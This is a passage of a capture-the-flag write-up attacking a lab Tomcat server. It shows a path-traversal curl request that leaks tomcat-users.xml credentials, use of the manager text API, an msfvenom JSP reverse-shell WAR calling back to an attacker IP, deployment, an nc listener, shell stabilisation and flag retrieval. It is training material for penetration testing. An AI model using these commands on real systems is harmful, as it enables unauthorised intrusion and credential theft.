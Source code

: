 ```sh
curl --path-as-is http://10.10.191.125:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="OPx52k53D8OkTZpx4fr" roles="manager-script"/>

</tomcat-users>
```
9. Since I'm not proficient with Tomcat config, first I tried to login from browser with the discovered user and password on `http://10.10.1.70:8080` but I run into an error like 'By default the Host Manager is only accessible from a browser running on the same machine as Tomcat...'
10. Digging deeper I found there are different roles in Tomcat and the one assigned to user I found is `manager-script`. This role can't access `/host-manager/html` from GUI, only via text-web-service (more on the topic [here](https://www.baeldung.com/tomcat-manager-app))
11. For the beginning let's list all deployed apps:

```sh
curl -u tomcat:OPx52k53D8OkTZpx4fr http://10.10.1.70:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:examples
/reverse_shell:running:0:reverse_shell
/host-manager:running:0:host-manager
/manager:running:0:manager
/docs:running:0:docs
```
12. Next step will be to try establish a reverse shell
13. For that we will manually generate a .war (Web Application Archive) file using a tool like `msfvenom` :

```sh
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.11.79.193 lport=4455 -f war > shell.war
```
14. Upload the file from text-web-interface as described in the link above:

```sh
curl --upload-file shell.war -u tomcat:OPx52k53D8OkTZpx4fr "http://10.10.1.70:8080/manager/text/deploy?path=/shell"
```
15. Start a local listener `nc -lvnp 4455` and access the revshell from browser `http://10.10.1.70:8080/shell/`
16. NOTE using Metasploit with `tomcat_mgr_upload` exploit will not work as that exploit targets users with GUI access
17. To make our job easier we will stabiles the shell

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
#CTRL+Z
stty raw -echo; fg
```
#### Data exfiltration
1. Let's hunt for the first flag and the place to search is the `tomcat` user home
2. As per `/etc/passwd` the home for this user is `/opt/tomcat`
3. Here you can read the content of `flag1.txt` and get the flag: **[FLAG1]**
